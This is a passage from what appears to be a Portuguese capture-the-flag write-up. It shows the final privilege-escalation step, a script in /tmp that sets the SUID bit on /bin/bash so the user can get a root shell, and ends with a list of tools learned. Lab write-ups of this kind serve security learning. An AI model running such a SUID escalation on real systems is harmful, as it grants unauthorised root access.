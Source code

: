 Criei o script `a.bash` na `/tmp`

```bash
#!/bin/bash
chmod u+s /bin/bash
```

o script adiciona SUID ao bash o que permiti ser executado como root com nosso usuário.  
Aguardei o script ser executado e deu certo.
### root flag
![alt text](/assets/img/friendly/friendly23.png)

**Conhecimento adquiridos:**
- Ferramenta pspy
- Uso do ligolo
- directory traversal
